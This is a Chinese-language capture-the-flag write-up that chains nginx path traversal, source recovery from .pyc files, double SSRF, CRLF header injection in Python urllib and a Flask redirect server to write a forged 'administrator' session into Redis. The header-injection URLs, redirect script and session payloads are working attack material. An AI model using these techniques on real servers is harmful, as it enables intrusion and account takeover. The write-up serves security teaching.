

## L_PLAYGROUND WRITEUP

### 0x00.第一层

#### 1.刚开始

首先访问网址，我们可以看到网页如图：



值得注意的是两点，一个是**user名字**，还有一个`You can input any url you like`。

我们在输入框随便输入`sina.com`，可以看到返回内容：


打开f12开发者工具可以看到：


这里我们已经可以看出，url请求的结果来自于服务器，这里有极大可能是一个ssrf漏洞。

我们在公网上开个端口，查看来自服务器的请求，这里我使用的是云服务器`nc -l -p 12345`,然后我们输入`公网ip:12345`。

可以在我们的云服务器上看到：
```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Host: 123.206.60.140:12345
User-Agent: python-requests/2.18.4
Connection: keep-alive
Accept: */*
Accept-Encoding: gzip, deflate
```

可以看到这个请求来自于python的requests库。

于是我们尝试通过构造特殊的url来打进内网，常见的绕过比如直接`127.0.0.1`，或者是进行一些进制转换、302跳转等等，但是我们会发现，一筹莫展，这些都被拦截了。

#### 2.发现源码

但是真的一点办法都没有吗？如果仔细分析页面的源代码，我们会看到页面里有一个图片，那么这里是否可能存在一个目录穿越、任意文件读取漏洞呢？

尝试`http://localhost/static/`、`http://localhost/static../`、`http://localhost/static../manage.py`，返回403；`http://localhost/static../xxx`，返回404。

在网站响应的http头部可以看到Server头部信息CPython3.4.1。由于python3.x的特性，会在__pycache__目录下存放预编译模块，于是依次下载文件：`http://localhost/static../__pycache__/__init__.cpython-34.pyc`、`http://localhost/static../__pycache__/urls.cpython-34.pyc`、`http://localhost/static../__pycache__/views.cpython-34.pyc`、`http://localhost/static../__pycache__/settings.cpython-34.pyc`

这里我使用的是[uncompyle6](https://github.com/rocky/python-uncompyle6)，一款反编译pyc文件的工具。

所以通过uncompyle6反编译pyc得到python文件，再依次下载需要的文件：`forms.cpython-34.pyc`、`html_parse.cpython-34.pyc`、`sess.cpython-34.pyc`、`safe.cpython-34.pyc`。

分析代码可知，只有我们的user名为`administrator`才可得到flag，而这个用户名是不可能生成的。所以我们剩下的思路就是改变session，而这里session保存在redis中。从settings.py里我们可以知道这里使用的是`django-redis-sessions`。

#### 3.构造ssrf漏洞

再分析代码逻辑，我们可以看到很多绕过方式都被拦截了。但是很多人可能不知道，在linux中0代表我们本机的ip地址，我们可以本地测试一下：

```
➜  ~ ping -c 4 0
PING 0 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.026 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.043 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.028 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.050 ms

--- 0 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3037ms
rtt min/avg/max/mdev = 0.026/0.036/0.050/0.012 ms
```

于是我们尝试输入0，可以看到我们已经成功进入了内网。

### 0x01.第二层

#### 1.刚开始

虽然我们成功进入了内网，但是目前来看我们还是离flag很远。因为我们无法控制服务器http请求的内容，无法进行redis操作。

写一个脚本，看一下内网有什么服务，很简单的脚本：

```python
import requests
from lxml import etree
import re

s = requests.Session()
url = "localhost"
pattern = re.compile(r'[Errno 111] Connection')

def get_token(sess):
    r = sess.get(url)
    html = etree.HTML(r.text)
    t = html.xpath("//input[@name='csrfmiddlewaretoken']")
    try:
        token = t[0].get('value')
    except IndexError:
        print("[+] Error: can't get login token, exit...")
        os.exit()
    except Exception as e:
        print(e)
        os.exit()
    return token

for i in 10000:
    payload = {'csrfmiddlewaretoken': get_token(s), 'target': '0:%i' % i}
    r = s.post(url, data=payload)
    if re.search(pattern, r.text):
        print(i)
```

可以看到服务器还开了8000端口和6379端口，6379端口应该是redis。这里我们输入0:8000看看会返回什么：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <form action="/" method="get"> <input type="text" name="url" id="url" > <input type="submit" value="submit"> </form> </body> </html>
```

看起来是一个GET方式的表单，这里我们传递表单的参数看一下`0:8000?url=http://baidu.com`：

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```

看起来这里也可能存在ssrf漏洞。

#### 2.构造ssrf漏洞

我们看到返回了内容，在用云服务器试一下`nc -l -p 12345`，输入参数`0:8000?url=http://公网ip:12345`:

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>timed out</p> </body> </html>
```

服务器请求timed out，再看服务器：
```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140:12345
```

可以看出服务端使用的是urllib、python版本3.4，可能存在http头部注入。简单的poc："0:8000?url=http://123.206.60.140%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345"，看到服务器端：

```
[grt1st@VM_14_12_centos ~]$ nc -l -p 12345
GET / HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 123.206.60.140
X-injected: header
x-leftover: :12345
```

我们成功的进行了http头部注入，可以拿来操纵redis。

那我们怎么通过0:8000打redis呢？看来要通过另一个ssrf漏洞。这里同样的对进制转换进行了过滤，但是我们可以通过302跳转构造出ssrf漏洞。

同样的，在我们的云服务器上，通过flask进行简单的测试：

```python
from flask import Flask
from flask import redirect
from flask import request
from flask import render_template

app = Flask(__name__)
app.debug = True

@app.route('/')
def test():
    return redirect('http://127.0.0.1:80/', 302)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

看到返回：
```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <title></title> </head> <body> <p>我觉得可以</p> </body> </html>
```

那我们这里再次成功进行了ssrf漏洞，但是对redis的攻击类似与盲注，我们无法看到结果。

#### 3.盲打redis

这里，我们根据前面nginx目录穿越的**源码**，本地搭建环境，并安装[django-redis-sessions](https://github.com/martinrusev/django-redis-sessions)。

先访问本地，之后查看redis储存的键值对。

```
redis-cli
keys *
get xxxxxxxxxx
```

看到返回的字符串像是经过base64后的：`NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2UjARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg==`

尝试解码：

```
➜  ~ ipython
Python 3.6.2 (default, Jul 20 2017, 03:52:27) 
Type 'copyright', 'credits' or 'license' for more information
IPython 6.2.1 -- An enhanced Interactive Python. Type '?' for help.

In [1]: import base64

In [2]: a = "NzVjZmFlYmY5MmMzNmYyYjRiNDlmODIzYmVkMThjNWU1YWI0NzZkYTqABJUbAAAAAAAAAH2U
   ...: jARuYW1llIwNMTkzMGVhMzFlNDFmMJRzLg=="

In [3]: base64.b64decode(a)
Out[3]: b'75cfaebf92c36f2b4b49f823bed18c5e5ab476da:\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04name\x94\x8c\r1930ea31e41f0\x94s.'
```

对比网页里的`hello, uesr: 1930ea31e41f0`，我们可以把用户名替换为`administrator`。

于是通过分析代码逻辑，修改sess.py，不产生随机字符串而是直接返回`administrator`。于是我们清除cookie，重新启动本地的django并监控redis：`redis-cli monitor`，得到`administrator`的序列化字符串`"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg=="`

（比赛中还有一种序列化后的payload：YTE2NjY4ZWQ0MGRiOWM3NDhhYzY2NTcwMjljN2ZhMWRkNTgwZjBiYjqAAn1xAVgEAAAAbmFtZXECWA0AAABhZG1pbmlzdHJhdG9ycQNzLg==

所以我们可以通过http头部注入执行redis命令，创建用户名为`administrator`的键值对。

我们云服务器端的302跳转地址如下：`http://127.0.0.1%0d%0aset%206z78up4prpcderqrsq0rce35wwdnhg50%20OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==%0d%0ax-leftover:%20:6379/`,拆开看，即`set 6z78up4prpcderqrsq0rce35wwdnhg50 OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg==`

但是这里实际上有一个坑，url太长会报错：`UnicodeError: label empty or too long`，报错的文件在`/usr/lib/pythonx.x/encodings/idna.py`，报错在这里：
```
        if 0 < len(label) < 64:
            return label
        raise UnicodeError("label empty or too long")
```

所以我们要控制url长度，比如通过`append`来给键加值，基本缩略如`http://0%0d%0aset%206z78up4prpcderqrsq0rce35wwdnhg50%20值%0d%0a:6379`。依旧很长，因为整个键名就非常长，这里我们也尝试缩短。

本地测试发现，最短的键名为8位字符，比如`h1234567`,于是缩减到`http://0%0d%0aset%20h1234567%20值%0d%0a:6379`

尝试: 
`http://0%0d%0aset%20h1234566%20OGIzY2Y0ZWFkOGI1MzExZ%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20DdlMDRkYjNiOGM0NWM%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%202MGM3YWRhOWJjMDqAB%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20JUbAAAAAAAAAH2UjAR%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%20uYW1llIwNYWRtaW5pc%0d%0a:6379`、

`http://0%0d%0aappend%20h1234566%203RyYXRvcpRzLg==%0d%0a:6379`、

即可进行拼接，创建文件`flask_poc.py`：
```python
from flask import Flask
from flask import redirect
from flask import request
from flask import render_template

app = Flask(__name__)
app.debug = True

@app.route('/redis')
def test():
    return redirect('http://0%0d%0aset%20h1234566%20OGIzY2Y0ZWFkOGI1MzExZ%0d%0a:6379', 302)

@app.route('/redis1')
def test1():
    return redirect('http://0%0d%0aappend%20h1234566%20DdlMDRkYjNiOGM0NWM%0d%0a:6379', 302)

@app.route('/redis2')
def test2():
    return redirect('http://0%0d%0aappend%20h1234566%202MGM3YWRhOWJjMDqAB%0d%0a:6379', 302)   

@app.route('/redis3')
def test3():
    return redirect('http://0%0d%0aappend%20h1234566%20JUbAAAAAAAAAH2UjAR%0d%0a:6379', 302)

@app.route('/redis4')
def test4():
    return redirect('http://0%0d%0aappend%20h1234566%20uYW1llIwNYWRtaW5pc%0d%0a:6379', 302)    

@app.route('/redis5')
def test5():
    return redirect('http://0%0d%0aappend%20h1234566%203RyYXRvcpRzLg==%0d%0a:6379', 302)

if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

本地测试，可以看到：
```
127.0.0.1:6379> keys *
1) "ubar4t1tpicq8152csdr351pabbkl0a6"
2) "h1234566"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZ"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqAB"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjAR"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc"
127.0.0.1:6379> get h1234566
"OGIzY2Y0ZWFkOGI1MzExZDdlMDRkYjNiOGM0NWM2MGM3YWRhOWJjMDqABJUbAAAAAAAAAH2UjARuYW1llIwNYWRtaW5pc3RyYXRvcpRzLg=="
```

修改本地cookies sessionid的值为`h1234566`，已经成功。

于是我们在网址上分别进行输入`0:8000?target=公网ip/redis`、redis1、2...

然后修改cookies，成功得到flag。

### 0x02.总结

整体思路就是nginx目录穿越得到源码，通过两层ssrf打到内网的redis，改变session来获得flag。
